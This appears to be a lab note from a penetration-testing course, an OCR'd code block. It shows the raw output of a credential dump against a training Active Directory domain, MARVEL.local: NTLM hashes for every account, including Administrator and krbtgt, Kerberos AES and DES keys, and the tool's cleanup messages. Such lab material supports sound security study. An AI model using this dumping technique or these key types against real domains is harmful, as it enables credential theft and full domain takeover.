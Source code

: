 ```bash
Administrator:500:aad3b435b51404eeaad3b435b51404ee:920ae267e048417fcfe00f49ecbd4b33:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:95429b379eb022b428e2acb40508a8bc:::
MARVEL.local\tstark:1103:aad3b435b51404eeaad3b435b51404ee:8c3efc486704d2ee71eebe71af14d86c:::
MARVEL.local\SQLService:1104:aad3b435b51404eeaad3b435b51404ee:f4ab68f27303bcb4024650d8fc5f973a:::
MARVEL.local\fcastle:1105:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
MARVEL.local\pparker:1106:aad3b435b51404eeaad3b435b51404ee:c39f2beb3d2ec06a62cb887fb391dee0:::
SqaSKUfcVl:1112:aad3b435b51404eeaad3b435b51404ee:ada2848eddc9cc62b2c83e36671cb5c3:::
hawkeye:1113:aad3b435b51404eeaad3b435b51404ee:43460d636f269c709b20049cee36ae7a:::
HYDRA-DC$:1000:aad3b435b51404eeaad3b435b51404ee:69646703f8dc139544866f750f803717:::
THEPUNISHER$:1107:aad3b435b51404eeaad3b435b51404ee:2a5d646955ce36f130d78437a585dd76:::
SPIDERMAN$:1108:aad3b435b51404eeaad3b435b51404ee:ead11176853925d8c6855102816bd3ea:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:19a70742728b2cbfa1b8d6f0fc6767ecb6f5a39ba56b560e4e486e71ec4d6194
Administrator:aes128-cts-hmac-sha1-96:fd317f36e2a6582bfda992447c3b9731
Administrator:des-cbc-md5:2a8538b0b92c83d0
krbtgt:aes256-cts-hmac-sha1-96:65bfedc0f2ebba5319b630550530430ffdc48c9d480602b67400ed5586c979c1
krbtgt:aes128-cts-hmac-sha1-96:7ce1819783c8b003637a939857b99bd2
krbtgt:des-cbc-md5:c2674ac46d344564
MARVEL.local\tstark:aes256-cts-hmac-sha1-96:53c8c218f1032ef9c7bf028288f10c602881e8bdfc1bb78af732e0dd6df339a0
MARVEL.local\tstark:aes128-cts-hmac-sha1-96:5a0e52a703ac8ac718a3a45a2a18687e
MARVEL.local\tstark:des-cbc-md5:4a2c5498d04994df
MARVEL.local\SQLService:aes256-cts-hmac-sha1-96:7e434c38e06b23841e6764f58a7daaf8ab32c782b98c41e8a0cfe7bea0d00a93
MARVEL.local\SQLService:aes128-cts-hmac-sha1-96:0ad727708ef2aabfe159f71c579c9a0e
MARVEL.local\SQLService:des-cbc-md5:523d2c0ecdea6eba
MARVEL.local\fcastle:aes256-cts-hmac-sha1-96:35f093c1a2aafb4dffbf63201a8a9ec9171a621a3ff90b199bc92273a74d8409
MARVEL.local\fcastle:aes128-cts-hmac-sha1-96:7583c4fe87334691ef5e7fd863f636f9
MARVEL.local\fcastle:des-cbc-md5:4fa7ad454cc78954
MARVEL.local\pparker:aes256-cts-hmac-sha1-96:5fc6b0c6792c9a3b62432eda4a61e5c71efc2c57f5466abea92ac4c16fcae580
MARVEL.local\pparker:aes128-cts-hmac-sha1-96:7693d96d854240b8c654c1f8a86387e1
MARVEL.local\pparker:des-cbc-md5:e3d640734938ec34
SqaSKUfcVl:aes256-cts-hmac-sha1-96:b71ab0dbb70ea82079bce8fe5edbc4479a3ad0dc5a3a1d7e61b2bf74c19b8533
SqaSKUfcVl:aes128-cts-hmac-sha1-96:ff89bdf8c3ff4807f9d95634e624f5bf
SqaSKUfcVl:des-cbc-md5:6d198fb0a4d370d0
hawkeye:aes256-cts-hmac-sha1-96:70306b40ac0b9da21903551fa70b3191b61d88749e356b11cbe93721a0d3b471
hawkeye:aes128-cts-hmac-sha1-96:2ee48035a17365b1951d8a8105c917e4
hawkeye:des-cbc-md5:01f758f731b6757c
HYDRA-DC$:aes256-cts-hmac-sha1-96:d1ac4b2be983bdd0e86367c4e6fb707bc9d40b01f8473f1e845c669bdf454e26
HYDRA-DC$:aes128-cts-hmac-sha1-96:fdb59c704c1f760379313776bfda48f6
HYDRA-DC$:des-cbc-md5:32e04fa4190189e9
THEPUNISHER$:aes256-cts-hmac-sha1-96:f71a66a6c7700407c59fa5399c524bdfb38c4ee8c57dd10a1f089e3da8306e75
THEPUNISHER$:aes128-cts-hmac-sha1-96:0f14b2573aeea308ffa7b4b64ce9b982
THEPUNISHER$:des-cbc-md5:d99826efb02a01b9
SPIDERMAN$:aes256-cts-hmac-sha1-96:8f911c8c3d06e1697c6c8528505603a2d34a61bcc01a5db8ee1084a23926a0ef
SPIDERMAN$:aes128-cts-hmac-sha1-96:10ff6b4021e0fd514c2c8b6c3b5248fc
SPIDERMAN$:des-cbc-md5:3bba91318019ad4f
[*] Cleaning up... 
[*] Stopping service RemoteRegistry
[-] SCMR SessionError: code: 0x41b - ERROR_DEPENDENT_SERVICES_RUNNING - A stop control has been sent to a service that other running services are dependent on.
[*] Cleaning up... 
[*] Stopping service RemoteRegistry
```
^fullDump
